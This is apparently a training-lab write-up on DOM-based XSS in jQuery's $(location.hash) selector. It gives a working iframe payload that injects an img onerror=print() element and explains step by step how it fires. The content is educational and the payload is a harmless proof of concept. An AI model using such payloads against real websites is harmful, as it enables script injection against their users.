 ## Solution steps

- Notice the vulnerable code on the home page using the browser's DevTools.
- From the lab banner, open the exploit server.
- In the Body section, add the following malicious iframe: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
- Store the exploit, then click View exploit to confirm that the print() function is called.
- Go back to the exploit server and click Deliver to victim to solve the lab.

## Explanation
- Let’s say the vulnerable site is: https://victim-site.com/#some-value
- And the site has some JavaScript like this: $(location.hash)
- That line of code means: "Take whatever comes after the # in the URL, and pass it to jQuery's $() function."
- So if the URL is: `https://victim-site.com/#<img src=x onerror=print()>`
- Then the code becomes: `$('<img src=x onerror=print()>')`
- Which creates an image element and puts it on the page. And because the image source is invalid (x), it fails to load, which triggers the onerror=print() part and our XSS gets executed.
- You can't just send a link like this: `https://victim-site.com/#<img src=x onerror=print()>`. Because some browsers or filters might block or break the < > characters, especially in URLs.
- So instead, you load the vulnerable page in an <iframe> and dynamically change its src from JavaScript inside your exploit.
  `
  &lt;iframe src=&quot;https://victim-site.com/#&quot; 
        onload=&quot;this.src+=&apos;&lt;img src=x onerror=print()&gt;&apos;&quot;&gt;
  &lt;/iframe&gt;`
- What this does:
  1. Loads the page like this:
  → `https://victim-site.com/#`
  2. Then the onload event triggers:
  → `this.src += <img src=x onerror=print()>`
  3. So the iframe reloads the page like:
  → `https://victim-site.com/#<img src=x onerror=print()>`
  4. That gets inserted into the page with jQuery:
  → `$(location.hash)`
  5. Which becomes:
  → `$('<img src=x onerror=print()>')`
  6. That creates a broken image and triggers:
  → `print()`
